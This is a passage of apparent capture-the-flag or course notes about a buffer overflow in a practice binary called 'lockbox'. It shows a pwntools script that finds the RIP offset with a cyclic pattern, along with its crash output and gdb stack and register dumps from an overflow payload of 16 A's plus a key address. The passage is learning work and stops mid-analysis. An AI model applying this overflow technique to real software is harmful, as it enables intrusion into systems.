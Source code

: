 
Hmm, perhaps I can actually use a cool pwntools script
It looks like, by the crash at least, I'm not editing rip at all:
```python
def ripOffset():
	p = process('./lockbox')
	d = p.recvuntil(">")
	p.sendline(cyclic(500))
	p.wait()
	cf = p.corefile
	stack = cf.rsp
	info("rsp = %#x", stack)
	pattern = cf.read(stack, 4)
	rip_offset = cyclic_find(pattern)

	info("rip offset = %d", rip_offset)
```
```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 newdbg.py
[+] Starting local process './lockbox': pid 40543
/home/kali/Desktop/4-Week/newdbg.py:88: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  d = p.recvuntil(">")
[*] Process './lockbox' stopped with exit code -11 (SIGSEGV) (pid 40543)
[+] Parsing corefile...: Done
[*] '/home/kali/Desktop/4-Week/core.40543'
    Arch:      amd64-64-little
    RIP:       0x4012a4
    RSP:       0x7ffd68ab1df0
    Exe:       '/home/kali/Desktop/4-Week/lockbox' (0x400000)
[*] rsp = 0x7ffd68ab1df0
[*] rip offset = 0

```

But that will be useful for another one...almost makes me wish I was redoing boffin


Anyways, I guess I'm gonna see if I can put RAX to point to key for now just to move past the buffer overflow

Wit 16 A's + the address of key, I can exit without a segfault:
Breakpoint 1, 0x00000000004012a4 in main ()
(gdb) $ info registers
rax            0x404050            4210768


However, I am still nowhere near understanding what is up with RIP

Anything after those 16 chars starts to fill RAX and RDX


So I sent it
16 A's + `addr[key]` + 4 0's + 16 b's
After read in:
```
(gdb) $ x/20x $sp
0x7fffffffddb0:    0x41414141    0x41414141    0x41414141    0x41414141
0x7fffffffddc0:    0x00404050    0x00000000    0x42424242    0x42424242
0x7fffffffddd0:    0x42424242    0x42424242    0x00000000    0x00000000
0x7fffffffdde0:    0xffffddc8    0x00007fff    0xffffddc0    0x00007fff
0x7fffffffddf0:    0x00000001    0x00000000    0xf7df26ca    0x00007fff
rax            0x404050            4210768
rbx            0x7fffffffdf08      140737488346888
rcx            0x7ffff7f9eaa0      140737353738912
rdx            0x4242424242424242  4774451407313060418
```
Right before return:
